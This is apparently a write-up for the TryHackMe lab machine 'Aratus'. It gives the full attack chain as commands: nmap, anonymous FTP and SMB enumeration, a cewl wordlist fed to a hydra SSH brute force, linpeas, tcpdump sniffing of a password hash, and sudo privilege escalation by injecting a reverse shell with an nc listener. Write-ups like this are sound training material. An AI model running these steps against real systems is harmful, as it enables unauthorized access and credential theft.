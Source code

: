 # Aratus | THM
### Difficulty level: Medium
----------------------------------

![image](https://miro.medium.com/v2/resize:fit:640/format:webp/1*PpL-YQ_OoYvBIsWd1GpYqw.png)

Perform a penetration test against a vulnerable machine. 
Your end-goal is to become the root user and retrieve the two flags:

/home/{{user}}/user.txt
/root/root.txt

The flags are always in the same format, where XYZ is a MD5 hash: THM{XYZ}.

The first step is to scan the machine with Nmap and save the results into a file:
```
nmap -sC -sV <ip-address> > nmap.txt
```

Results:
```bash
Host is up (0.15s latency).
Not shown: 974 filtered tcp ports (no-response), 20 filtered tcp ports (host-prohibited)
PORT    STATE  SERVICE      VERSION
21/tcp  open   ftp          vsftpd 3.0.2
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:<ip-address>
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 3
|      vsFTPd 3.0.2 - secure, fast, stable
|_End of status
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_drwxr-xr-x    2 0        0               6 Jun 09  2021 pub
22/tcp  open   ssh          OpenSSH 7.4 (protocol 2.0)
| ssh-hostkey: 
|   2048 092362a2186283690440623297ff3ccd (RSA)
|   256 33663536b0680632c18af601bc4338ce (ECDSA)
|_  256 1498e3847055e6600cc20977f8b7a61c (ED25519)
80/tcp  open   http         Apache httpd 2.4.6 ((CentOS) OpenSSL/1.0.2k-fips)
|_http-server-header: Apache/2.4.6 (CentOS) OpenSSL/1.0.2k-fips
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-title: Apache HTTP Server Test Page powered by CentOS
139/tcp closed netbios-ssn
443/tcp open   ssl/http     Apache httpd 2.4.6 ((CentOS) OpenSSL/1.0.2k-fips)
|_ssl-date: TLS randomness does not represent time
|_http-server-header: Apache/2.4.6 (CentOS) OpenSSL/1.0.2k-fips
| ssl-cert: Subject: commonName=aratus/organizationName=SomeOrganization/stateOrProvinceName=SomeState/countryName=--
| Not valid before: 2021-11-23T12:28:26
|_Not valid after:  2022-11-23T12:28:26
|_http-title: 400 Bad Request
445/tcp closed microsoft-ds
Service Info: OS: Unix

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 45.42 seconds
```
There are 4 open ports:
21 — FTP
22- SSH
80- HTTP
443- HTTPS

Firstly, check the anonymous login :
```bash
ftp anonymous@<ip-address>
```

![image](https://miro.medium.com/v2/resize:fit:828/format:webp/1*tr9KCozWXpjlr448e1i8UA.png)

Secondly, check http port:

![image](https://miro.medium.com/v2/resize:fit:828/format:webp/1*u99Fe_bTCFvpxHrTxi4qjQ.png)

Keep going with the enumeration with enum4linux:
```bash
enum4linux <ip-address>
```

Results:
![image](https://miro.medium.com/v2/resize:fit:828/format:webp/1*lWjSnYuYONTJ2rL0M7j3-g.png)

![image](https://miro.medium.com/v2/resize:fit:640/format:webp/1*4dpAT7XNE6-zGoPkIyEr5w.png)

![image](https://miro.medium.com/v2/resize:fit:640/format:webp/1*7APKZQzyU06iW6B4XQiMCA.png)

Start with share’s inspection:

```bash
smbclient //<ip-address>/"temporary share"
```

Results:
![image](https://miro.medium.com/v2/resize:fit:828/format:webp/1*yks5fE7wP0w7VoIyo6HoTg.png)

Grab the message with “get” command.

```bash
Simeon,

Stop messing with your home directory, you are moving files and directories insecurely!
Just make a folder in /opt for your book project...

Also you password is insecure, could you please change it? It is all over the place now!

- Theodore
```
Check simeon directory with : <ip-address/simeon>

![image](https://miro.medium.com/v2/resize:fit:828/format:webp/1*Kb4bcP14t6_007Le9yex1g.png)

Generate wordlist from the content with :

```bash
cewl <ip-address> > wordlist.txt
```

Use hydra to find simeon's password:

```bash
hydra -l simeon -P wordlist.txt ssh://<ip-address> -v
```
![image](https://miro.medium.com/v2/resize:fit:828/format:webp/1*PF4IbcXkVwV3K0cM5VAISw.png)

Connect SSH with those credentials:
```bash
ssh simeon@<ip-address>
```
![image](https://miro.medium.com/v2/resize:fit:640/format:webp/1*PckR5X2POW94ZM9F4ComUA.png)

There is no user.txt flag that simeon can read, trying moving to “theodore”.
but how?
Upload linpeas.sh to the machine by opening python server, 
curl it simeon’s machine, give it execute permission and run.

There is a bingo:

![image](https://miro.medium.com/v2/resize:fit:828/format:webp/1*CH5i48t1PZiakpmk8WqY7A.png)

Check the networks that relate to the machine with “ip add”.
There are 2 networks: ‘lo’ and ‘eth0’.
Check ‘lo’ traffic with:
```bash
tcpdump -i lo -A
```
![image](https://miro.medium.com/v2/resize:fit:828/format:webp/1*qFYr-zLQBD4HRQuB9sEoAw.png

and there is a hash.
Grab it into a file hash.txt and decode it:
![image](https://miro.medium.com/v2/resize:fit:640/format:webp/1*C5KJk7KIdvmWKFWSaDffSQ.png)

Switch user to theodore and cat user.txt flag.

![image](https://miro.medium.com/v2/resize:fit:828/format:webp/1*JVZDkJ4crG_UXtNMyfypwg.png)

**Privilege Escalation**
Find a way to escalate your privilege with sudo -l.

![image](https://miro.medium.com/v2/resize:fit:828/format:webp/1*YuRwgjKtM-LNFiREviMlrA.png)

There is a file that can lead us to root, but it runs only by automation user.
Check what this .sh file does.

![image](https://miro.medium.com/v2/resize:fit:828/format:webp/1*8FE-4YNCyP6NzFVHyr3GqQ.png)

After, execute it as automation user with:

```bash
sudo -u automation /opt/script/infra_as_code.sh
```
There is a file that includes within this .sh file which means it runs when “infra_as_code.sh” is running.

![image](https://miro.medium.com/v2/resize:fit:828/format:webp/1*tf-QJyJyNj9VXXNQA_IMPw.png)

This file has write permission:

![image](https://miro.medium.com/v2/resize:fit:828/format:webp/1*6Pw9rhKTw2g_9Ojz9cngPw.png)

Inject reverse shell payload into this file to get reverse shell.

![image](https://miro.medium.com/v2/resize:fit:828/format:webp/1*H7fCX8YJ67V2SDXS3n5VCw.png)

Open netcat listener:

```bash
nc -lnvp 2222
```

Run infra_as_code.sh as automation user again.
```bash
sudo -u automation /opt/scripts/infra_as_code.sh 
```

and there is a shell. cat root.txt flag.

![image](https://miro.medium.com/v2/resize:fit:828/format:webp/1*BMRmCywf4am1RD6PuGbaZw.png)

This is Aratus on TryHackMe platform. I hope that you find this writeup helpful.

Happy Hacking!

**Written by Alon Presman, Penetration Tester and Ethical Hacker.**

























